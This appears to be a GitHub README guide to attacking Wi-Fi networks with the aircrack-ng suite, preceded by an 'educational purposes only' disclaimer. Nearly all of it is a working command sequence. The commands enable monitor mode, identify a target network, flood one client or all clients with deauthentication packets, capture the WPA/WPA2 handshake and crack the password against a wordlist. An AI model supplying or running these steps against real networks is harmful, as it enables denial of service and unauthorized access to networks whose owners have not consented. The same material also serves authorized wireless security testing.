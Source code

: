 # Deauthentication Attack and Wi-Fi Password Cracking using aircrack-ng

## Disclaimer
**WARNING: Unauthorized access to computer networks is illegal and unethical. This guide is intended for educational purposes only and should only be used on networks for which you have explicit permission. Misuse of this information can lead to severe legal consequences.**

## Prerequisites
- A computer with a compatible wireless network adapter that supports monitor mode.
- `aircrack-ng` suite installed.
- Root or sudo access.

## Step 1: Install aircrack-ng
To install the `aircrack-ng` suite, use the following commands:

```bash
# Update package lists
sudo apt update

# Install aircrack-ng
sudo apt install aircrack-ng

```
## Step 2: Set Wireless Interface to Monitor Mode
  # List network interfaces
sudo iwconfig

# Stop any process that could interfere with monitor mode
sudo airmon-ng check kill

# Start monitor mode on your wireless interface (e.g., wlan0)
sudo airmon-ng start wlan0

# Verify that the interface is now in monitor mode (e.g., wlan0mon)
sudo iwconfig
## Step 3: Capture Traffic with airodump-ng
# Start capturing packets on the monitor mode interface
sudo airodump-ng wlan0mon

# Note the BSSID (MAC address) and channel of the target network

## Step 4: Deauthentication Attack with aireplay-ng
# Deauthenticate a specific client
sudo aireplay-ng --deauth 0 -a <BSSID> -c <Client_MAC> wlan0mon

# Deauthenticate all clients from the target network
sudo aireplay-ng --deauth 0 -a <BSSID> wlan0mon

## Step 5: Capture the WPA/WPA2 Handshake
# Capture the handshake by specifying the BSSID and channel
sudo airodump-ng -c <Channel> --bssid <BSSID> -w capture wlan0mon

# Look for "WPA handshake" in the airodump-ng output

## Step 6: Crack the Password with aircrack-ng
# Run aircrack-ng with the captured handshake file and a wordlist
sudo aircrack-ng -w /path/to/wordlist.txt -b <BSSID> capture-01.cap

